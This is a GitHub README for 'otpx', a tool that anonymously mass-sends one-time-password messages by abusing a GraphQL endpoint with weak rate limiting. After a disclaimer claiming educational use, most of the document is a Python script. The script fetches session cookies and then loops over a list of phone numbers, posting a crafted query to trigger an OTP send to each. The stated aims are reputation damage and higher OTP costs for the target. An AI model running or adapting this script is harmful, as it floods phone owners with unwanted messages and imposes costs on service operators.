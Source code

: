 # otpx

> Austin Lai | November 11th, 2022

---

## Table of Contents

<!-- TOC -->

- [otpx](#otpx)
    - [Table of Contents](#table-of-contents)
    - [Disclaimer](#disclaimer)
    - [Description or Introduction](#description-or-introduction)
    - [otpx documentation](#otpx-documentation)

<!-- /TOC -->

<br />

## Disclaimer

This or previous tool is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (Austin) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears **NO** responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (data loss, system crash, system compromise, etc.) caused by the use of these tools is not Austin responsibility.

<br />

## Description or Introduction

<!-- Description -->

**otpx** is a tool that anonymously mass sending OTP under GraphQL.

**Example showing only a sample of how we can exploit OTP under GraphQL and bypass inadequate rate-limit to demonstrate the impact of reputation damage and/or increase OTP cost.**

<!-- /Description -->

<br />

## otpx documentation

```python
#!/usr/bin/python

import json
import requests

# Here is where we retrieve new cookies set.
get_cookie = 'https://xxx.xxx.xxx/'

# Here is the OTP GraphQL endpoint
otp_url = 'https://xxx.xxx.xxx/sample-graphql/xxx'

# Here is where we define and craft our HTTP request headers
headers = {
    'Host': 'xxx.xxx.xxx',
    'Sec-Ch-Ua': '"Chromium";v="104", " Not A;Brand";v="99", "Microsoft Edge";v="104"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Origin': 'https://xxx.xxx.xxx',
    'Referer': 'https://xxx.xxx.xxx',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9'
}

# Here is where we craft our graphql query
# You will need to find out the exact graphql query that suit in your environment.
body = '''
query sample($sample: String) { sample(sample: $sample) { sample sample }}
'''

# Here is where we define our random phone number that will be used to received OTP
phone = ['']


# Looping through list of phone and send OTP
for i in range(len(phone)):

    session = requests.Session()
    response = session.get(get_cookie)
    my_cookie=session.cookies.get_dict()

    response = requests.post(url=otp_url,cookies=my_cookie,json={'sample': 'sample','variables':{'sample':phone[i]},'query':body})

    if response.status_code == 200:
        print('response : ', response.content + b'\n')
```


